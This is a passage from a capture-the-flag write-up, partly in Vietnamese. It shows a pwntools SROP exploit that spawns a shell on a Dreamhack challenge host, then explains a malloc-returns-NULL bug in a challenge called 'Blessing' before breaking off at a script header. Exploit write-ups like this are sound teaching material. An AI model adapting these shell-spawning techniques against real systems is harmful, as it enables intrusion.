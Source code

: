     def GDB():
        if args.remote is None:
            gdb.attach(p, gdbscript='''
            b* 0x0000000000043015

            c
            ''')
            input()

    if args.remote:
        p = remote('host3.dreamhack.games',18525)  
    else:
        p = process(exe.path) 



    #GDB()


    pop_rax = 0x0000000000043018
    mov_rdx_syscall = 0x000000000004300e
    syscall = 0x0000000000043015
    bin_sh = 0x43238

    frame = SigreturnFrame()
    frame.rax = 0x3b
    frame.rdi = bin_sh
    frame.rsi = 0
    frame.rdx = 0
    frame.rsp = 0
    frame.rip = syscall


    pl = flat(
        b'a'*8,
        pop_rax,0xf,
        syscall, 
        bytes(frame),

    )
    s(pl)
    p.interactive()


### Blessing
Check source
![image](https://hackmd.io/_uploads/r1XCYo1TJx.png)
Bug chỗ này 
![image](https://hackmd.io/_uploads/HJOV9jy61x.png)
Nếu ta malloc một size siêu siêu lớn nó sẽ return null. Vậy ta chỉ cần malloc size v6 được leak thì cái size = v6 và buf = 0 thì nó sẽ set v6 = 0 và read flag thôi.


    #!/usr/bin/python3

    from pwn import *
    import argparse
    from time import *
    from ctypes import cdll

